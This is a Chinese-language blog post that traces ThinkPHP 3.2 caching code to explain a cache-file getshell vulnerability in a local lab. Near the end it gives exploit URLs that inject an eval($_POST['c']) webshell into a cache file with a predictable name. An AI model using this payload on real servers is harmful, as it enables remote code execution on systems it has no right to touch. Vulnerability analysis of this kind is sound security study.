

之前学php的时候就对php里面的缓存技术很疑惑，前些日子爆出的thinkphp缓存getshell漏洞看着大佬追了一便代码，自己也想尝试追一下，顺便了解一下何为缓存。实验用的是TP3.2有此漏洞的版本
何为缓存？
具体http://www.thinkphp.cn/code/1579.html
简单的说就是减少服务器压力，将用户常见的的网页事先静态存储好。个人认为，一般情况下TP用的是数据缓存，即将数据缓存到一个php文件中，文件名包含一个id来唯一标示（TP中是一个md5值）
搭建环境
配置数据库
1 2 3 4 5 6 7
| CREATE database article CREATE TABLE article ( content VARCHAR(255) ); 'DB_NAME' => 'aritcle'//在config.php中添加该键值对
|
写入代码
修改home/controller/indexController.class.php 如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18
| <?php namespace Home\Controller; class IndexController { function index(){ echo "welcome"; } function save(){ $content = array('content' => I('get.content')); $amodel = M('article'); $amodel->data($content)->add(); } function cache(){ $amodel = M('article'); $content = $amodel->select(); var_dump($content); S('content',$content,3600); } }
|
缓存函数用法
在TP3.2版本中，起缓存功能的是S函数，用法如下
1 2 3 4 5 6
| // 使用data标识缓存$Data数据 S('data',$Data); //前面的是缓存标示，后面的是缓存的数据 // 缓存$Data数据3600秒 S('data',$Data,3600); // 删除缓存数据 S('data',NULL); //第一个参数时缓存的标识名
|
下面为第一次创建缓存（理想情况下）的代码跟踪
跟进S函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22
| /** * 缓存管理 * @param mixed $name 缓存名称，如果为数组表示进行缓存设置 * @param mixed $value 缓存值 * @param mixed $options 缓存参数 * @return mixed */ function S($name,$value='',$options=null) { static $cache = ''; /*省略*/ }elseif(empty($cache)) { // 自动初始化 $cache = Think\Cache::getInstance();//创建缓存时从这里进入 } if(''=== $value){ // 获取缓存 return $cache->get($name); }elseif(is_null($value)) { // 删除缓存 return $cache->rm($name); }else { // 缓存数据 /*省略*/ return $cache->set($name, $value, $expire); } }
|
创建缓存时进入Think\Cache::getInstance()，这个方法检索静态数组是否已经有缓存实例，如果有就返回，没有则创建。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15
| /** * 取得缓存类实例 * @static * @access public * @return mixed */ static function getInstance($type='',$options=array()) { static $_instance = array();//静态变量，储存所有创建的缓存实例 $guid = $type.to_guid_string($options);//返回一个md5编号，以待稍后作为数组键值 if(!isset($_instance[$guid])){//如果缓存实例不存在则创建 $obj = new Cache(); $_instance[$guid] = $obj->connect($type,$options); } return $_instance[$guid]; }
|
md5标识号生成方式
1 2 3 4 5 6 7 8 9 10 11 12
| /** * 根据PHP各种类型变量生成唯一标识号 * @param mixed $mix 变量 * @return string */ function to_guid_string($mix) { /*省略*/ } else { $mix = serialize($mix); } return md5($mix);//返回一个序列化的md5值 }
|
跟进$obj->connect($type,$options);这个方法是在配置一些初始值，比如缓存的类型，路径信息
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17
| /** * 连接缓存 * @access public * @param string $type 缓存类型 * @param array $options 配置数组 * @return object */ public function connect($type='',$options=array()) { if(empty($type)) $type = C('DATA_CACHE_TYPE');//如果为$type空，默认缓存类型为FILE $class = strpos($type,'\\')? $type : 'Think\\Cache\\Driver\\'.ucwords(strtolower($type)); if(class_exists($class)) $cache = new $class($options); // 实例化Think\Cache\Driver\FILE else E(L('_CACHE_TYPE_INVALID_').':'.$type); return $cache; }
|
最后一步写入缓存
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18
| /** * 写入缓存 * @access public * @param string $name 缓存变量名 * @param mixed $value 存储数据 * @param int $expire 有效时间 0为永久 * @return boolean */ public function set($name,$value,$expire=null) { /*省略*/ $filename = $this->filename($name);//生成文件名，理想情况下MD5('content') /*省略*/ $data = serialize($value); /*省略*/ $data = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>"; $result = file_put_contents($filename,$data); /*省略*/ }
|
关键点在<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>
理想情况下这里的利用条件得天独厚，因为两个尖括号都写好了，不用担心I函数过滤的问题。而其中的data就是传入进去的一句话：
1 2
| http://127.0.0.1/chapter-5/index.php/home/index/save?content=%2f%2f%0A%20eval%28%24_POST%5B%27c%27%5D%29%3B%23 //写入数据库 http://127.0.0.1/chapter-5/index.php/home/index/cache //激活缓存
|
在Runtime/Temp下 getshell 
最后
文中一直提到是理想情况，这里解释一下，跟踪的时候省略了一些代码，其中有的是利用的前提条件，举个例子，文中提到理想情况下webshell文件名是MD5(‘content’)即9a0364b9e99bb480dd25e1f0284c8555/原因是TP中有一个给MD5值加盐的参数可以在配置文件中申明DATA_CACHE_KEY，如果管理员事先设置了这个参数，文件名就会变得不可猜，具体如下
1 2 3 4 5 6 7 8
| private function filename($name) { $name = md5(C('DATA_CACHE_KEY').$name); /*省略*/ }else{ $filename = $this->options['prefix'].$name.'.php'; } return $this->options['temp'].$filename; }
|
还有一些前提条件，例如Runtime不在web目录内，一般情况也是利用不了的。
如何出错，恳请指点